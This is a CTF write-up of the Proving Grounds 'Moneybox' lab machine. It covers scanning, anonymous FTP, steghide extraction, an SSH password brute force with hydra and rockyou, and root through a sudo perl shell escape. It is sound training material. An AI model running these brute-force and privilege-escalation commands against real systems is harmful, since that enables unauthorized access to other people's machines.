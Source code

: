 ```yaml
---
title: "Proving grounds Play: Moneybox"
layout: post
date: 2023-09-12 01:00
categories: writeup
---
```


Proving grounds Play - Moneybox CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: MoneyBox
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing: Directories

```text
/blogs
```

### Landing page

![img](/assets/images/CTF/Proving_Grounds/Moneybox/web1.png)

View-source disclosed a hint about the secret directory 

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

The secret directory source disclosed a secret key `<!..Secret Key 3xtr4ctd4t4 >`.

## FTP

FTP allows anonymous login.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ftp.png)

Download the image file and use the secretkey found earlier as password to extract information.

```sh
steghide extract -sf trytofind.jpg
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/steghide.png)

A file names data.txt has been written to the same directory, that contains hint about the user and password.

```text
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

## Crack SSH credentials using hydra

```sh
hydra -l renu -P /usr/share/wordlists/rockyou.txt 192.168.180.230 -t 4 ssh
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ssh-crack.png)

SSH to user `renu` using the password.

**Initial Foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/Moneybox/renu-dir.png)

After searching the directoriees in renu user ,an another user was found in the `/home` directory `lily`.

The user lily has a SSH authorized key which belongs to the user renu, SSH to user lily from user renu.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/lily.png)

## Enumerate user permission

```sh
sudo -l
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/sudo-l.png)

## Privilege Escalation

### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```sh
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).